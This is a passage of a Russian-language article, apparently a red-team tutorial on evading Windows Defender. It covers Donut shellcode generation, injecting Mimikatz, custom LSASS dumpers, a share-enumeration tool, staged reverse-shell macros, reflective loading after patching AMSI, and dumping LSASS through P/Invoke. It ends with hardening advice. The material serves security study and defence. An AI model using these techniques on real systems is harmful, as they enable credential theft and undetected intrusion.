// 1. validate the loader configuration
err = validate_loader_cfg(c);
if(err == DONUT_ERROR_OK) {
// 2. get information about the file to execute in memory
err = read_file_info(c);
if(err == DONUT_ERROR_OK) {
// 3. validate the module configuration
err = validate_file_cfg(c);
if(err == DONUT_ERROR_OK) {
// 4. build the module
err = build_module(c);
if(err == DONUT_ERROR_OK) {
// 5. build the instance
err = build_instance(c);
if(err == DONUT_ERROR_OK) {
// 6. build the loader
err = build_loader(c);
if(err == DONUT_ERROR_OK) {
// 7. save loader and any additional files to disk
err = save_loader(c);
}
}
}
}
}
}
// if there was some error, release resources
if(err != DONUT_ERROR_OK) {
DonutDelete(c);
}Из всех этих функций, возможно, самая интересная — это build_loader, которая содержит следующий код:
Код:
uint8_t *pl;
uint32_t t;
// target is x86?
if(c->arch == DONUT_ARCH_X86) {
c->pic_len = sizeof(LOADER_EXE_X86) + c->inst_len + 32;
} else
// target is amd64?
if(c->arch == DONUT_ARCH_X64) {
c->pic_len = sizeof(LOADER_EXE_X64) + c->inst_len + 32;
} else
// target can be both x86 and amd64?
if(c->arch == DONUT_ARCH_X84) {
c->pic_len = sizeof(LOADER_EXE_X86) +
sizeof(LOADER_EXE_X64) + c->inst_len + 32;
}
// allocate memory for shellcode
c->pic = malloc(c->pic_len);
if(c->pic == NULL) {
DPRINT("Unable to allocate %" PRId32 " bytes of memory for loader.", c->pic_len);
return DONUT_ERROR_NO_MEMORY;
}
DPRINT("Inserting opcodes");
// insert shellcode
pl = (uint8_t*)c->pic;
// call $ + c->inst_len
PUT_BYTE(pl, 0xE8);
PUT_WORD(pl, c->inst_len);
PUT_BYTES(pl, c->inst, c->inst_len);
// pop ecx
PUT_BYTE(pl, 0x59);
// x86?
if(c->arch == DONUT_ARCH_X86) {
// pop edx
PUT_BYTE(pl, 0x5A);
// push ecx
PUT_BYTE(pl, 0x51);
// push edx
PUT_BYTE(pl, 0x52);
DPRINT("Copying %" PRIi32 " bytes of x86 shellcode",
(uint32_t)sizeof(LOADER_EXE_X86));
PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));
} else
// AMD64?
if(c->arch == DONUT_ARCH_X64) {
DPRINT("Copying %" PRIi32 " bytes of amd64 shellcode",
(uint32_t)sizeof(LOADER_EXE_X64));
// ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention
// and rsp, -0x10
PUT_BYTE(pl, 0x48);
PUT_BYTE(pl, 0x83);
PUT_BYTE(pl, 0xE4);
PUT_BYTE(pl, 0xF0);
// push rcx
// this is just for alignment, any 8 bytes would do
PUT_BYTE(pl, 0x51);
PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));
} else
// x86 + AMD64?
if(c->arch == DONUT_ARCH_X84) {
DPRINT("Copying %" PRIi32 " bytes of x86 + amd64 shellcode",
(uint32_t)(sizeof(LOADER_EXE_X86) + sizeof(LOADER_EXE_X64)));
// xor eax, eax
PUT_BYTE(pl, 0x31);
PUT_BYTE(pl, 0xC0);
// dec eax
PUT_BYTE(pl, 0x48);
// js dword x86_code
PUT_BYTE(pl, 0x0F);
PUT_BYTE(pl, 0x88);
PUT_WORD(pl, sizeof(LOADER_EXE_X64) + 5);
// ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention
// and rsp, -0x10
PUT_BYTE(pl, 0x48);
PUT_BYTE(pl, 0x83);
PUT_BYTE(pl, 0xE4);
PUT_BYTE(pl, 0xF0);
// push rcx
// this is just for alignment, any 8 bytes would do
PUT_BYTE(pl, 0x51);
PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));
// pop edx
PUT_BYTE(pl, 0x5A);
// push ecx
PUT_BYTE(pl, 0x51);
// push edx
PUT_BYTE(pl, 0x52);
PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));
}
return DONUT_ERROR_OK;Опять же, из краткого анализа, эта подпрограмма создаёт/подготавливает позиционно-независимый shellcode на основе исходного исполняемого файла для последующей инъекции, вставляя ассемблерные инструкции для выравнивания стека в зависимости от архитектуры и заставляя поток кода переходить к исходному shellcode исполняемого файла. Обратите внимание, что это может быть не самый актуальный код, так как последний коммит в этот файл был в декабре 2022 года, а последний релиз — в марте 2023 года. Тем не менее, это даёт хорошее представление о том, как это работает.
В завершение, перейдём к доказательству концепции этого раздела. Я буду выполнять стандартный Mimikatz, полученный непосредственно из репозитория gentilkiwi, путем инъекции shellcode в локальный процесс PowerShell. Для этого нам сначала нужно сгенерировать PI-код.

После того как shellcode сгенерирован, мы можем использовать любой инжектор на ваш выбор для этой цели. К счастью, в последнем релизе уже присутствует как локальный инжектор (для процесса, который его выполняет), так и удаленный инжектор (для другого процесса), для которых Microsoft еще не создала сигнатуры, поэтому я буду использовать их.

7) Кастомные инструменты
Инструменты, такие как Mimikatz, Rubeus, Certify, PowerView, BloodHound и другие, популярны не просто так: они объединяют множество функций в одном пакете. Это очень удобно для злоумышленников, так как они могут автоматизировать распространение вредоносного ПО с использованием всего нескольких инструментов. Однако это также означает, что поставщикам легко заблокировать весь инструмент, зарегистрировав его сигнатурные байты (например, строки меню, имена классов/пространств имен в C# и т. д.).Чтобы противостоять этому, возможно, нам не нужен весь инструмент размером 2-5 МБ, полный зарегистрированных сигнатур, для выполнения одной или двух необходимых функций. Например, чтобы сбросить пароли/хеши входа, мы можем использовать проект Mimikatz только с функцией sekurlsa::logonpasswords, но мы также можем написать собственный дампер и парсер LSASS совершенно другим способом, но с похожим поведением и вызовами API.
Для первого примера я буду использовать LsaParser от Cracked5pider.

К сожалению, он не разработан для Windows Server, поэтому мне пришлось использовать его на моем локальном Windows 10, но суть вы поняли.
Для второго примера допустим, что наша цель — перечислить общие ресурсы во всем домене Active Directory. Мы могли бы использовать функцию PowerView Find-DomainShare для этого, однако это один из самых известных инструментов с открытым исходным кодом, поэтому, чтобы быть более незаметным, мы могли бы разработать собственный инструмент для поиска общих ресурсов на основе нативного Windows API, как в следующем примере.
C++:
#include <windows.h>
#include <stdio.h>
#include <lm.h>
#pragma comment(lib, "Netapi32.lib")
int wmain(DWORD argc, WCHAR* lpszArgv[])
{
PSHARE_INFO_502 BufPtr, p;
PSHARE_INFO_1 BufPtr2, p2;
NET_API_STATUS res;
LPTSTR lpszServer = NULL;
DWORD er = 0, tr = 0, resume = 0, i,denied=0;
switch (argc)
{
case 1:
wprintf(L"Usage : RemoteShareEnum.exe <servername1> <servername2> <servernameX>\n");
return 1;
default:
break;
}
wprintf(L"\n Share\tPath\tDescription\tCurrent Users\tHost\n\n");
wprintf(L"-------------------------------------------------------------------------------------\n\n");
for (DWORD iter = 1; iter <= argc-1; iter++) {
lpszServer = lpszArgv[iter];
do
{
res = NetShareEnum(lpszServer, 502, (LPBYTE*)&BufPtr, -1, &er, &tr, &resume);
if (res == ERROR_SUCCESS || res == ERROR_MORE_DATA)
{
p = BufPtr;
for (i = 1; i <= er; i++)
{
wprintf(L" % s\t % s\t % s\t % u\t % s\t\n", p->shi502_netname, p->shi502_path, p->shi502_remark, p->shi502_current_uses, lpszServer);
p++;
}
NetApiBufferFree(BufPtr);
}
else if (res == ERROR_ACCESS_DENIED) {
denied = 1;
}
else
{
wprintf(L"NetShareEnum() failed for server '%s'. Error code: % ld\n",lpszServer, res);
}
}
while (res == ERROR_MORE_DATA);
if (denied == 1) {
do
{
res = NetShareEnum(lpszServer, 1, (LPBYTE*)&BufPtr2, -1, &er, &tr, &resume);
if (res == ERROR_SUCCESS || res == ERROR_MORE_DATA)
{
p2 = BufPtr2;
for (i = 1; i <= er; i++)
{
wprintf(L" % s\t % s\t % s\t\n", p2->shi1_netname, p2->shi1_remark, lpszServer);
p2++;
}
NetApiBufferFree(BufPtr2);
}
else
{
wprintf(L"NetShareEnum() failed for server '%s'. Error code: % ld\n", lpszServer, res);
}
}
while (res == ERROR_MORE_DATA);
denied = 0;
}
wprintf(L"-------------------------------------------------------------------------------------\n\n");
}
return 0;
}Этот инструмент, на высоком уровне, использует функцию NetShareEnum из Win32 API для удаленного получения общих ресурсов, предоставляемых с любых указанных конечных точек. По умолчанию он пытается использовать привилегированный уровень доступа SHARE_INFO_502, который показывает дополнительную информацию, такую как путь к диску, количество подключений и т. д. Если это не удается, он переходит на уровень доступа SHARE_INFO_1, который показывает только имя ресурса, но может быть перечислен любым непривилегированным пользователем (если конкретный ACL не блокирует его).
Вы можете использовать этот инструмент, который доступен здесь.
Теперь мы можем использовать его следующим образом:

Конечно, создание индивидуальных инструментов может быть очень трудоемкой задачей, требующей глубоких знаний о внутренней структуре Windows, но оно имеет потенциал для преодоления всех других методов, представленных в этой статье. Поэтому этот подход стоит рассмотреть, если все остальные методы не работают. Тем не менее, я считаю, что это избыточно для обхода Defender/антивирусов, и он больше подходит для обхода EDR, так как вы можете контролировать и включать собственный набор вызовов API, точек останова, порядка выполнения, ненужных данных/инструкций, обфускации и т. д.
8. Разбиение полезной нагрузки
Разбиение полезной нагрузки на последовательные этапы — это давно известная техника, которую часто используют злоумышленники для распространения вредоносного ПО, избегая начального статического анализа. Это происходит потому, что настоящий вредоносный код будет получен и выполнен на более позднем этапе, когда статический анализ может не успеть вступить в игру.Для доказательства концепции я продемонстрирую очень простой, но эффективный способ разбиения полезной нагрузки для обратной оболочки, который можно использовать, например, для создания вредоносного файла Office с помощью следующей макрокоманды:

Это, конечно, не будет обнаружено антивирусом статически, так как на первый взгляд выполняется безобидная команда.
9) Рефлективная загрузка
Вы можете вспомнить из первой части, что мы выполняли Mimikatz после патчинга AMSI в памяти, чтобы продемонстрировать, что Defender перестал сканировать память нашего процесса. Это стало возможным благодаря тому, что .NET предоставляет API System.Reflection.Assembly, которое позволяет нам рефлективно загружать и выполнять сборку .NET в памяти.
Это, конечно, очень полезно для наступательных целей, так как PowerShell использует .NET, и мы можем использовать его в скрипте для загрузки целого бинарного файла в память, чтобы обойти статический анализ, в котором Windows Defender особенно силен.
Общая структура такого скрипта выглядит следующим образом:

Здесь Gzip используется просто для того, чтобы попытаться скрыть реальный бинарный файл, поэтому иногда это может сработать без дополнительных методов обхода, но самая важная строка — это вызов функции Load из класса .NET System.Reflection.Assembly для загрузки бинарного файла в память. После этого мы можем просто вызвать его основную функцию с помощью "[ClassName.Program]::main([string[]]$args)".
Таким образом, мы можем выполнить следующую цепочку действий, чтобы запустить любой желаемый бинарный файл:
- Патчить AMSI/ETW.
- Рефлективно загрузить и выполнить сборку.
К счастью, в этом репозитории содержится не только множество готовых скриптов для каждого известного инструмента, но и инструкции по созданию собственных скриптов на основе ваших бинарных файлов.
Для доказательства концепции я буду выполнять Mimikatz, но вы можете использовать любой другой инструмент, который вам нужен.

Обратите внимание, что, как упоминалось ранее, обход AMSI может не понадобиться для некоторых бинарных файлов, в зависимости от строкового представления бинарных данных, которое вы используете в скрипте. Но поскольку Invoke-Mimikatz широко известен, мне пришлось сделать это в данном примере.
10) P/Invoke в C# сборках
P/Invoke (Platform Invoke) позволяет нам получить доступ к структурам, обратным вызовам и функциям из неуправляемых нативных DLL-файлов Windows, чтобы использовать низкоуровневые API в нативных компонентах, которые могут быть недоступны напрямую из .NET.Теперь, зная, что это делает, и понимая, что мы можем использовать .NET в PowerShell, это означает, что мы можем получить доступ к низкоуровневым API из PowerShell-скрипта, который можем запустить без вмешательства Defender, если предварительно обойдем AMSI.
Для доказательства концепции предположим, что мы хотим сбросить процесс LSASS в файл с помощью функции MiniDumpWriteDump, доступной в "Dbghelp.dll". Мы могли бы использовать для этого инструмент nanodump от fortra. Однако этот инструмент полон сигнатур, которые Microsoft уже зарегистрировала. Вместо этого мы можем использовать P/Invoke, чтобы написать PowerShell-скрипт, который выполнит ту же задачу, но с патчингом AMSI, чтобы оставаться незамеченным.
Таким образом, для доказательства концепции я использую следующий код на PowerShell.

В этом примере мы сначала импортируем функцию MiniDumpWriteDump из Dbghelp.dll с помощью Add-Type, затем импортируем функции OpenProcess и CloseHandle из kernel32.dll. Затем, наконец, получаем дескриптор процесса LSASS и используем MiniDumpWriteDump, чтобы выполнить полный дамп памяти процесса и записать его в файл.
Заключение
Все вышесказанное не направлено на то, чтобы выставить Defender в негативном свете или сказать, что это плохое антивирусное решение. На самом деле, это, вероятно, одно из лучших доступных на рынке решений, и большинство описанных здесь техник могут быть использованы с большинством других продуктов. Однако, так как для этой статьи я использовал именно Defender, я не могу говорить за другие решения.В конечном итоге, не стоит полагаться на антивирус или EDR как на первую линию обороны от злоумышленников. Вместо этого следует укреплять инфраструктуру таким образом, чтобы даже в случае обхода решений на конечных точках можно было минимизировать потенциальный ущерб. Например, это может быть система строгих разрешений, GPO (групповые политики), правила ASR, контролируемый доступ, усиление процессов, CLM (контроль жизненного цикла логинов), AppLocker и другие меры.